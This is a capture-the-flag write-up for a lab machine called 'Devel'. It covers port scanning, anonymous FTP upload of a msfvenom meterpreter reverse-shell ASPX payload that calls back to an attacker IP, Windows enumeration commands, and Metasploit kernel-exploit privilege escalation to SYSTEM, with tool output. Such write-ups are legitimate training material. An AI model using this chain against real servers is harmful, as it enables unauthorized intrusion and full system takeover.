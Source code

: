 # Devel

<pre>nmap -p- 10.10.10.5 -Pn

PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http


nmap -p 21,80 -sV -sC -T4 10.10.10.5

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</pre>

<pre>ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49161|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png</pre>

<pre>ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put hello.txt</pre>

- Browse to uploaded `hello.txt` file hosted on the server `http://10.10.10.5/hello.txt`
- We are able to view the file
- Generate msfvenom payload to upload

<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.73 LPORT=1234 -f aspx -o reverse_shell.aspx</pre>

- Upload to FTP server
- Setup listener

<pre>use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.73
set LPORT 1234
run</pre>

- Browse to http://10.10.10.5/reverse_shell.aspx</pre>
- Receive reverse shell on listener

<pre>meterpreter > getuid
Server username: IIS APPPOOL\Web

meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows</pre>

## System Enumeration

<pre>systeminfo</pre>

<pre>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"</pre>

<pre>wmic qfe</pre>

<pre>wmic logicaldisk</pre>

<pre>wmic logicaldisk get caption,description,providername</pre>

## User Enumeration

<pre>whoami</pre>

<pre>whoami /priv</pre>

<pre>whoami /groups</pre>

<pre>netuser</pre>

<pre>netuser username</pre>

<pre>net localgroup Administrators</pre>

## Network Enumeration

<pre>ipconfig</pre>

<pre>ipconfig /all</pre>

<pre>arp -a</pre>

<pre>route print</pre>

## Metasploit - Privilege Escalation

- Background meterpreter session
- Use `post/multi/recon/local_exploit_suggester`

<pre>#   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.</pre>

<pre>msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.73:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2536 launched.
[*] Reflectively injecting the DLL into 2536...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.73:4444 -> 10.10.10.5:49195) at 2024-05-07 19:31:04 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM</pre>


